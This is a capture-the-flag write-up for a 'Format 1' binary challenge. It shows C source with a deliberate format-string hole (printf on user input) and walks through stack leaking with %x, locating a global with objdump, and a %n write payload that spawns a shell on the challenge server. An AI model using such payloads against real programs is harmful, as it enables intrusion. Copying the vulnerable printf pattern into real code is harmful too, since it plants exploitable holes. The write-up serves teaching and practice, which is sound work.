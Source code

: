 "Format 1" was a binary challenge worth 100 points.

This program is vulnerable to a format string attack! Try supplying a format string to overwrite a global variable and get a shell! You can exploit the binary on our shell server at /problems/format1/. 
Download the binary here, and source code is available here

We're given the source code, so let's have a peak.

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int secret = 0;

void give_shell()
{
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

int main(int argc, char **argv)
{
    char buf[128];
    memset(buf, 0, sizeof(buf));
    fgets(buf, 128, stdin);
    printf(buf);

    if (secret == 192)
    {
        give_shell();
    }
    else
    {
        printf("Sorry, secret = %d\n", secret);
    }

    return 0;
}
From this, it's easy to see what we need to do to trigger the give_shell() function. We need to change the value of secret from 0 to 192.

int secret = 0
.
.
.
if (secret == 192)
{
    give_shell();
}
Next I ran the binary normally just to see its behavior.

# ./format1 
123
123
Sorry, secret = 0
With basic format strings, modifying values stored in an address is a fairly trivial task. All you need to know is the index of your buffer, the address to write to and what to write.

I started off by using objdump to get the address of secret.

# objdump -t format1 | grep secret
0804a040 g     O .bss   00000004              secret
Then I moved on to find the correct index.

# python2 -c 'print "A"*4 + "-%x-%x-%x-%x-%x-%x-%x"' | ./format1 
AAAA-80-f7785580-ffb064f4-ffb063fe-1-c2-41414141
Sorry, secret = 0
Here we can see that the string AAAA (41414141) repeats at index 7.

This is all I need to write a simple exploit, which looks like this "\x40\xa0\x04\x08%188x%7$n".

The first four bytes \x40\xa0\x04\x08 is the address of secret reversed so it matches little endian.

The last part %188x%7$n writes 4+188 bytes to whatever is on index 7, which in our case now is the address of secret.

# python2 -c 'print "\x40\xa0\x04\x08%188x%7$n"' | ./format1 
@�                                                                                                                                                                                          80
sh-4.3# exit
Running it locally exited right away. So I tried on the challenge server

team24254@shell:/problems/format1$ (python2 -c 'print "\x40\xa0\x04\x08%188x%7$n"';cat) | ./format1
@�                                                                                                                                                                                          80
$
Success. It's not exiting. Let's get our flag.

cat flag.txt

[2]+  Stopped                 ( python2 -c 'print "\x40\xa0\x04\x08%188x%7$n"'; cat ) | ./format1
team24254@shell:/problems/format1$ is_%n_used_for_anything_besides_this


Flag: is_%n_used_for_anything_besides_this
